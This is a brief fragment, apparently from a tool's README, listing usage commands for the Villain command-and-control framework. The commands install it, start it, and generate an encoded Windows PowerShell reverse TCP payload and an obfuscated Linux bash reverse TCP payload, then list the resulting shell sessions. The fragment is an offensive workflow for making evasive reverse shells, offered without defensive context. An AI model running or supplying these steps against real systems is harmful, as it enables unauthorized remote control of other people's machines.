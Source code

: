 - sudo apt install villain
- villain
- generate payload=windows/reverse_tcp/powershell_v2/ lhost=eth0 encode
- generate payload=linux/reverse_tcp/bash_read_line/ lhost=eth0 obfuscate
sessions
